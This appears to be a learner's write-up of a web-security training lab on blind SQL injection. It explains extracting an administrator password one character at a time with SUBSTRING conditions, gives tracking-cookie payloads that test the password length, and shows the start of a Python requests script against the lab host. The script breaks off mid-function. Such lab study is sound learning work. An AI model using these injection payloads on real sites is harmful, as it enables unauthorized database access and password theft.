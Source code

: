 ```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than`t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is`s`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

We can continue this process to systematically determine the full password for the`Administrator`user.

#### Note

The`SUBSTRING`function is called`SUBSTR`on some types of database. For more details, see the SQL injection cheat sheet.

## Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a`Welcome back`message in the page if the query returns any rows.

The database contains a different table called`users`, with columns called`username`and`password`. You need to exploit the blind SQL injection vulnerability to find out the password of the`administrator`user.

To solve the lab, log in as the`administrator`user.

```
Solution

Check:
Cookies: TrackingId=xyz' AND '1'='1

Check password length
Cookie: TrackingId=y2KC1T2TtKCUzTbd' AND (select 'a' from users where username='administrator' and length(password)=20)='a

Extract
```

```python
import requests
import string

charset = string.ascii_lowercase + string.digits

burp0_url = "https://0a9800e103ff2b8481781b8400b1002c.web-security-academy.net:443/filter?category=Pets"
burp0_cookies = {
    "TrackingId": "y2KC1T2TtKCUzTbd",
    "session": "CrCtUOzTMiNBMdUAsbbVQ2HetHhYuuUL",
}

res = requests.get(burp0_url, cookies=burp0_cookies)


# Sample payload: ' AND (select 'a' from users where username='administrator' and length(password)=20)='a
def blind_sql(payload):
    global burp0_url
```
